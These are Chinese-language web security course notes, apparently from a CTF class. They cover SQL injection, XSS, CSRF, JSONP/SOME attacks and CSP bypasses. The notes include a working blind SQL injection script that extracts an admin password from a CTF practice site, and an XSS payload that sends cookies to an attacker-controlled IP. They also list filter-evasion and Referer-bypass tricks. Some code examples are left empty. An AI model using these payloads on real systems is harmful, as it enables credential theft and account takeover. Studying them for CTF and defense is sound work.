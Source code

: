 # Web Day2

## sql注入

- sql盲注脚本

  ```python
  import requests
  import re
  import sys
  p = re.compile(r'''ID: (.+?)&nbspx:''')
  ans = ''
  for pos in range(1,33):
      l = 0
      r = 127
      cookies = {"PHPSESSID":"tf7511brt2272n9ne5i8dj6o35"}
      data = {"x": "1", "y": "1"}
      while l<r:
          mid = int((l+r)/2)
          resp = requests.post(
              "https://web.ctflearn.com/grid/controller.php?action=add_point", data=data, cookies=cookies).text
          resp = requests.get("https://web.ctflearn.com/grid/", cookies=cookies).text
          _id = p.search(resp).group(1)
          payload = _id +  ' and ord(mid((select password from user where username="admin" limit 0, 1), ' +  str(pos) + ',1))>' + str(mid)
          length = len(payload)
          resp = requests.get('''https://web.ctflearn.com/grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:1:"1";s:1:"y";s:1:"1";s:2:"ID";s:'''+str(length)+''':"%s";}'''%payload,cookies=cookies,allow_redirects=False).text
          resp = requests.get("http://web.ctflearn.com/grid/",cookies=cookies).text
          if _id not in resp:
              l = mid+1
          else:
              r = mid
      if l==0:
          break
      ans = ans + chr(l)
      print(ans)
  ```

## XSS攻击与防御

### Cookie

- 获取cookie的方法：浏览器端（客户端） &rarr; document.cookie；服务器端（PHP） &rarr; $_COOKIE[]
- PS：服务器端的一个响应包中只能包含一个set-cookie
- Chrome的Windows Cookie的位置：AppData\Local...
- Cookie属性 &rarr; 分号分隔的键值对
  - domain只可以设置为页面本身或其子页面、不能设置为顶级域名

### XSS漏洞

- 简介：攻击者可以在页面上插入html代码，通过javaScript得到受害者信息。分类：
  1. 反射性：用户请求的中的参数直接输出到了页面中，形成XSS
  2. 存储性（评论功能）：将用户提交的评论存储在数据库的表中 &rarr; 从数据库中取出来直接显示在评论区中
  3. *DOM性*：页面中的源码中并无XSS攻击向量
- 危害：窃取信息、XSS蠕虫、命令执行
  - 命令执行：特权域XSS &rarr; WooYun-2016-170984；沙盒绕过 &rarr; CVE-2017-12581
- 编码：
  - HTML实体编码：符号的功能性编码与显示编码分离 &rarr; DOM元素的属性值会自动解码HTML编码
  - URL编码：后端需要进行一个decode
  - 页面编码：利用gbk编码漏洞 &rarr; 转移符`\`在gbk中的低字节位，如果在前面插入一个单字节高位字节，组合成一个合法字符，可以用于逃逸`\`
- XSS漏洞注入点
- XSS注入的一些小trick：
  1. 过滤`"."`，使用with语句；过滤`';'`，用换行
  2. url协议头可以去掉，如//example.com(http)
  3. HTML实体编码中，`';'`可以去掉
  4. 可以利用拼接eval函数执行代码，例如：`"a"+eval("alert(1)")`
- *hidden元素XSS*

### CTF中的XSS题目

- 绕过（例子：HCTF2016 guestbook）

- 课上习题2：

  - 爆破md5：

  ```php
  <?php
      $i = 0;
      while(1){
          if(substr(md5($i),0,6) === '966150')
              break;
          $$i = $$i +1;
      }
      echo $i;
  ?>
  ```

  - Payload：

  ```html
  <script>
      with(document){
          location=`//760096541/`+escape(cookie)
      }
  </script>
  ```

  - 过滤了字符 `.` 使用 `with(){}` 指定作用域，地址转化为十进制（该十进制为指定的自己的服务器，在自己的服务器上可以得到cookie参数）

### XSS防御

- Chrome XSS Filter
- 过滤（不安全）
- 转义和编码 &rarr; 较安全的方法：编码（转成实体编码）
- HttpOnly &rarr; 后端代码中可以将Cookie添加一个给HttpOnly属性，这样就不会被前端的JS读取到

## CSRF攻击与防御

- CSRF: Cross-Site Request Forgery

### CSRF攻击

- 攻击分类：GET型、POST型、伪造请求、JSON
  - 307跳转：307跳转可以不改变请求主体，只改变请求目标。现在自己的服务器上放置一个main.html，包含产生307的flash，在统计
- CSRF绕过：
  - 空Referer &rarr; get请求、data协议、https向http跳转
  - Referer前缀绕过。比如检测前缀`https://www.qq.com`，可以自己注册域名`https://www.qq.comxx.xx`

### CSRF防御

- 方式：验证码、添加token、Referer

## 同源分析

- 源：协议 + 域名 + 端口

### 跨域方式

- Ajax：可以发送请求，但是不能带cookie

- CORS &rarr; 跨域资源共享
- windows.name可以跨域
- Jsonp &rarr; 可以实现从其他网站获取数据。数据包中的content是可控的。
  - a页面希望或许b页面的数据 &rarr; a向b发送一个jsonp请求 &rarr; 调用a页面中定义的CallBack函数

### jsonp攻击方式 &rarr; SOME攻击

SOME攻击：用户访问a.com可以实现在b.com上执行javascript

- http://b.com/index.html

```html
<form>
    <button onclick="c()">Secret Button</button>
</form>
<script>
    function c() {alert("click!");}
</script>
```

- http://b.com/jsonp.php

```php
<?php
    ?>
```



- http://a.com/some1.html
- http://a.com/some2.html

```html

```

### CSP &rarr; content-src-policy

CSP绕过：

- url跳转：在default-src为'none'的情况下，可以使用meta标签实现跳转
- 标签预加载：CSP对link标签的预加载考虑不完善
- 利用浏览器补全
- 代码重用 &rarr; Blackhat2017上有篇ppt总结了可以被用来绕过CSP的一些JS库
- iframe &rarr; 如果同源的其他页面内没有CSP限制，则可以利用没有限制的页面实现绕过CSP
- meta标签 &rarr; meta可以控制缓存（在header没有设置的情况下），有时可以用来绕过CSP nonce